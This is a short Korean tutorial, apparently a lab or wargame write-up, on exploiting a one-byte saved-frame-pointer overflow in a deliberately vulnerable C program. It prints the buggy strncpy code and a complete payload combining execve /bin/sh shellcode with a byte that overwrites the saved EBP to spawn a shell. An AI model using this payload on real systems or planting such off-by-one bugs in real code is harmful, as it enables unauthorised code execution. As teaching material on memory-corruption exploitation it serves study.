


# SFP overflow

다음의 c 코드로 만들어진 실행파일에 sfp overflow 방식을 이용하여 shell을 따보도록 하겠다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func(char *src)
{
        char buffer[40];
        strncpy(buffer, src, 41);
        puts(buffer);
}

int main(int argc, char *argv[])
{
        if(argc<2){
                printf("argv error\n");
                exit(0);
        }

        func(argv[1]);
}
```

gdb를 이용하여 func 함수를 disassemble 해보면 다음과 같은 결과가 나온다.



눈여겨 보아야 할 점은 27번 줄로 버퍼의 시작주소(ebp-0x28)이 push 된다는 점이다. 이로써 buffer 앞에는 buffer의 시작 주소가 위치하게 된다. 우리는 목표는 sfp를 조작하여 ret 주소가 바로 buffer 시작주소가 되도록 하는 것이고 SFP가 pop소 후(leave) RET가 pop된다는 것(ret)을 이용할 것이다. 따라서  SFP가 버퍼의 시작주소가 저장된 위치에 + 4byte 된 주소가 되도록 끝자리만 수정하고 buffer의 경우 shell코드로 채워주면 될 것이다. 

완성된 payload는 다음과 같다.

```bash
./sfp_overflow `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*15+"\x2c"'`
```

성공하면 다음과 같이 shell을 획득할 수 있다. 

